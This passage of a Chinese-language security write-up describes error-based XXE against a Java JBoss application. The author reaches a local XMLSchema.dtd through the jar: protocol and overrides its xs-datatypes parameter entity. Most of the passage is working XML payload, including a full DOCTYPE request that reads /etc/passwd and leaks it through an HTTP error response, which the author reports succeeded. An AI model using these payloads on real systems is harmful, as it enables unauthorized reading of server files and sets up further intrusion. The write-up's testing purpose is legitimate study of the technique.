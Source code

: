 ```plain
....
<!ENTITY % xs-datatypes PUBLIC 'datatypes' 'datatypes.dtd' >
....
%xs-datatypes; <!-- Here We can overwrite parameter Entity % xs-datatypes and our content would be then passed & parsed here-->
...
....
```

因此，我必须在XXE有效payload中创建以下实体（基本上覆盖XMLSchema.dtd中的现有对象）：

```plain
<!ENTITY % xs-datatypes '<!ENTITY &#x25; file SYSTEM " file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27; file:///abcxyz/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
```

幸运的是，我正在测试的是一个基于Java的应用程序，该应用程序具有**“ jar”**协议，可用于读取存档（jar / zip等）中的文件，  
例如：`jar:file://var/www/html/test.zip!/test.txt`其中test.txt是test.zip中的文件  
由于我是在本地环境上进行所有操作的，因此我首先确认该应用程序中是否还存在该特定的jar文件，结果现实确实如此。

接下来，我要做的就是：

1.  使用jar协议读取jbossxacml-xxxFinal-redhat-x.jar文件中的XMLSchema.dtd，
2.  创建“ xs-datatypes”实体以覆盖内容

```plain
<!DOCTYPE root [
<!ENTITY %  x SYSTEM 
"jar:file:///jboss-as/modules/system/layers/base/org/jboss/security/xacml/main/jbossxacml-x.x.x.Final-redhat-x.jar!/schema/xmlschema/XMLSchema.dtd"> 
<!ENTITY % xs-datatypes ' <!ENTITY &#x25; file SYSTEM " file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27; file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
'>
%x;
]>
<root>
<id>..</id>
<name>test</name>
</root>
```

成功了！它在HTTP响应的错误中返回了/ etc / passwd的内容  
[![](assets/1704850652-164cd86a7406796de5aaeac4676ff06c.png)](https://cdn.nlark.com/yuque/0/2019/png/336528/1575815005824-dbbe2c95-0d9b-4182-9370-9313a4be4ab2.png#align=left&display=inline&height=318&name=image.png&originHeight=635&originWidth=1600&size=363867&status=done&style=none&width=800)
